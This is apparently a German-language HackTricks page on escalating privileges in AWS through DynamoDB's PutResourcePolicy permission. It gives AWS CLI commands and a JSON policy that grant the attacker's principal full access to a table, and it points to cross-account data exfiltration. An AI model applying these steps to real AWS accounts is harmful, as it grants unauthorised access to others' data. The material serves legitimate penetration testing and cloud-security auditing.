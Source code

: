 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Für weitere Informationen zu dynamodb siehe:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, und optional `dynamodb:GetResourcePolicy`

Seit März 2024 bietet AWS *ressourcenbasierte Richtlinien* für DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Wenn Sie also die `dynamodb:PutResourcePolicy` für eine Tabelle haben, können Sie sich selbst oder einem anderen Principal einfach vollen Zugriff auf die Tabelle gewähren.

Das Gewähren der `dynamodb:PutResourcePolicy` an einen zufälligen Principal geschieht oft versehentlich, wenn die Administratoren denken, dass das Gewähren von `dynamodb:Put*` nur dem Principal erlauben würde, Elemente in die Datenbank einzufügen - oder wenn sie dieses Berechtigungsset vor März 2024 gewährt haben...

Idealerweise haben Sie auch `dynamodb:GetResourcePolicy`, sodass Sie keine anderen potenziell wichtigen Berechtigungen überschreiben, sondern nur die zusätzlichen Berechtigungen injizieren, die Sie benötigen:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Wenn Sie die aktuelle Richtlinie nicht abrufen können, verwenden Sie einfach diese, die Ihrem Principal vollen Zugriff auf die Tabelle gewährt:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Wenn Sie es anpassen müssen, finden Sie hier eine Liste aller möglichen DynamoDB-Aktionen: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Und hier ist eine Liste aller Aktionen, die über eine ressourcenbasierte Richtlinie erlaubt werden können *UND welche davon kontenübergreifend verwendet werden können (denken Sie an Datenexfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Jetzt, da das Richtliniendokument `policy.json` bereit ist, fügen Sie die Ressourcenrichtlinie hinzu:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Jetzt sollten Sie die benötigten Berechtigungen haben.

### Post-Exploitation

Soweit ich weiß, gibt es **keinen anderen direkten Weg, um Berechtigungen in AWS nur durch einige AWS `dynamodb`-Berechtigungen zu eskalieren**. Sie können **sensible** Informationen aus den Tabellen lesen (die AWS-Anmeldeinformationen enthalten könnten) und **Informationen in die Tabellen schreiben** (was andere Schwachstellen auslösen könnte, wie z.B. Lambda-Code-Injektionen...), aber all diese Optionen sind bereits auf der **DynamoDB Post-Exploitation-Seite** berücksichtigt:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Daten lesen durch Missbrauch von Datenströmen

{{#include ../../../banners/hacktricks-training.md}}
